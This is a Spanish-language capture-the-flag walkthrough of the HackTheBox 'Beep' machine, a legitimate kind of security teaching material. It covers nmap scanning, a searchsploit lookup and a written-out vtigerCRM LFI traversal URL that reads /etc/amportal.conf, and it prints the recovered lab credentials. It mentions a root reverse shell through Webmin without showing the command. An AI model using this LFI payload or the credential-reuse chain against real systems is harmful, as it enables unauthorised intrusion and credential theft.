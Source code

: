 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/10/2017'
---
```


# Beep

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.7
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **22 (SSH - OpenSSH 4.3)**: Versión antigua, posible explotación y fuerza bruta.
* **25 (SMTP - Postfix)**: Puede filtrar usuarios o permitir envío sin autenticación (open relay).
* **80/443 (HTTP/HTTPS - Apache 2.2.3)**: Versión vulnerable, revisar exploits y probar SQLi, XSS, LFI.
* **110/995 (POP3/POP3s - Cyrus)**: Posible captura de credenciales en texto claro, probar autenticación.
* **111 (RPCBind)**: Puede permitir enumeración y ejecución remota de código.
* **143/993 (IMAP/IMAPs - Cyrus)**: Posible ataque de autenticación o exploits específicos.
* **3306 (MySQL - Acceso no autorizado)**: Intentar acceso con credenciales por defecto.
* **4445 (Servicio desconocido)**: Revisar banners y comportamiento con `nc`.
* **10000 (Webmin - MiniServ 1.570)**: **Vulnerable a RCE**, buscar exploits.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,443,110,995,143,993,3306,4445,10000 -v 10.10.10.7
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Probamos credenciales por defecto pero no hay resultado. Vamos a ver si **Elastix** tiene alguna vulnerabilidad para explotar.

```bash
searchsploit elastix
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos una vulnerabilidad **LFI** por lo que la explotamos. Descargamos el archivo.

```bash
searchsploit -m php/webapps/37637.pl
```

Vemos el contenido.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos el exploit LFI que tiene por lo que es lo que hacemos a continuación.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al parecer aparecen unas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
admin:jEhdIekWmdjE
```

Nos intentamos loguear con esas credenciales en el servicio **Webmin**.&#x20;

> Nota: las credenciales son root como usuario y misma contraseña.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Podemos ejecutar una tarea como root y eso hacemos para una Reverse Shell.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1233).png" alt=""><figcaption></figcaption></figure>
